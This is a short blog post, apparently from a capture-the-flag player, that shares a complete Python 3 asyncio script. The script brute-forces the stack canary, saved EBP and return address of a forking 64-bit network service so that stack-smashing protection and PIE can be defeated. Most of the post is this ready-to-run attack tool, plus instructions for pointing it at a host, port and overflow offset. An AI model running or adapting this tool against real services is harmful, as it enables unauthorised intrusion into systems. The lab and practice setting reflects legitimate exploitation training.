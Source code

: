 ```yaml
---
title: Bruteforcing 64 bits binaries with python 3
description: Script made in python 3 to bruteforce Canary, EBP and return address from a 64 bits binary with Stack canary, NX and PIE enabled.
categories: python
author: Xh4H
tags: bruteforce overflow python3 script
---
```


# Introduction
Hello, I wanted to share with you a script made in Python 3 without pwntools (pwntools is only officially supporting python 2).

The following script will bruteforce asynchronously the following addresses:

- Stack canary address
- EBP
- Return address

This has been built to bruteforce 64 bits binaries with the following details:

- The binary establishes a listener in certain address and port (localhost, 1337).
- The binary sends one single line and then expects user input.

Since this process is being done asynchronously, the needed time to extract these 3 addresses is reduced a lot compared to a single threaded-single task bruteforce.

# How to run
There are 3 global variables that need to be modified according to our needs.

**HOST** has to point to a valid and resolvable host, such as localhost, 10.10.10.10, etc.

**PORT** has to point to a valid port, such as 1337, 8006, 5050, etc.

**BUFFER_OVERFLOW_OFFSET** has to contain a numeric offset where the binary being bruteforced crashes by overflowing the buffer. If the binary crashes after 80 characters, this variable will contain that number.

Since this is made for python 3, please run it with `python3`. No command line arguments are required.
# Output
The script will output the latest tested payload, Canary, EBP and return address hexadecimal addresses and time needed to bruteforce:

<div style="text-align:center"><img src="/assets/images/brute-1.png" /></div>

# Script
```py
import asyncio, struct, time

initial_time = time.time()
BUFFER_OVERFLOW_OFFSET = 0x38 # offset at which buffer overflow occurs
HOST = "localhost"
PORT = 1337

class SuccessException(Exception):
	pass

def finished():
	finished_time = time.time()
	total = finished_time - initial_time
	print("Bruteforcing finished, time needed: %d s." % total)

try_order = [0] + [x for x in range(1, 256)][::-1]

def u64(data):
	return struct.unpack('<Q', data)[0]

async def try_char(prepend, char, semaphore):
	async with semaphore:
		reader, writer = await asyncio.open_connection(host=HOST, port=PORT)
		payload	= prepend
		payload += bytes([char])

		await reader.read(52)
		writer.write(payload)

		result = await reader.read(-1)

		writer.close()

		if result:
			exception = SuccessException()
			exception.char = char
			raise exception

async def start():
	semaphore = asyncio.BoundedSemaphore(20)

	prepend = b'A' * BUFFER_OVERFLOW_OFFSET
	for _ in range(16):
		print(prepend)
		futures = [asyncio.ensure_future(try_char(prepend, x, semaphore)) for x in try_order]
		done, pending = await asyncio.wait(futures, return_when=asyncio.FIRST_EXCEPTION)
		for pending_task in pending:
			pending_task.cancel()
		for done_task in done:
			try:
				done_task.result()
			except SuccessException as e:
				prepend += bytes([e.char])
				break

	prepend += bytes([0x62]) # 0x62 specific to the tested binary, can be b''
	for _ in range(7): # in case the above line is b'', change to range(8)
		print(prepend)
		futures = [asyncio.ensure_future(try_char(prepend, x, semaphore)) for x in try_order]
		done, pending = await asyncio.wait(futures, return_when=asyncio.FIRST_EXCEPTION)
		for pending_task in pending:
			pending_task.cancel()
		for done_task in done:
			try:
				done_task.result()
			except SuccessException as e:
				prepend += bytes([e.char])
				break

	canary = u64(prepend[BUFFER_OVERFLOW_OFFSET:BUFFER_OVERFLOW_OFFSET+8])
	ebp = u64(prepend[BUFFER_OVERFLOW_OFFSET+8:BUFFER_OVERFLOW_OFFSET+8+8])
	return_addr = u64(prepend[BUFFER_OVERFLOW_OFFSET+8+8:BUFFER_OVERFLOW_OFFSET+8+8+8])

	print('[*] Canary: 0x%x\n[*] EBP: 0x%x\n[*] ret_addr: 0x%x' % (canary, ebp, return_addr))
	finished()
	

loop = asyncio.get_event_loop()
loop.run_until_complete(start())
```

Props to goeo for his asynchronous skills.

Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>

